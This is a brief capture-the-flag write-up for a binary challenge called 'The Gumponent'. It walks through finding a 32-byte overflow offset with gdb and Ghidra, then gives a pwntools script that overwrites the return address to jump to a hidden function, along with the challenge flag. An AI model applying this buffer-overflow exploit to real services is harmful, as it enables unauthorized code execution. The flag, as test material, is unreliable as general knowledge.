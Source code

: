 # The Gumponent

#### Description: Hey, Chase here. Some of us on the team think we've found a component of something Anthony was last working on. Its seen running on a server. Additionally, someone found a prototype. Do you can you dig into this and see if there is something on the server that could tell use more?

We were given a server address and the port. Also a file "test_gumponent" to try it locally. 

First, I ran the code in gdb and used peda to get the offset. The offset is 32. 

I had the offset, but I still needed the target address. 

Putting it through Ghidra we can see its stripped, but after looking through the code, we can see that there is a function at address 0x401230 that returns "Am4z1ng succe55: %s\n","__Try it 0n the r3mote server n0w!__"

So, 0x401230 is the target address. 

    # Solution from negasora https://github.com/negasora/Some-CTF-Solutions/blob/master/ritsec-24/gumponent/sol.py
    from pwn import *

    io = process("./test_gumponent")

    io.readuntil(b'is at ')
    glump_addr = int(io.readuntil(b',')[2:-1], 16)

    io.readuntil(b'is at ')
    next_addr = int(io.readline().strip()[2:], 16)



    print(f"{glump_addr:x}")
    print(f"{next_addr:x}")


    target = p64(0x401230)

    io.sendline(b'A'*(next_addr - glump_addr) + target)

    io.interactive()

    # RS{to_gump_or_not_to_gump}

next_addr - glump_addr = 32, the same as the offset. 

It was a basic buffer overflow.
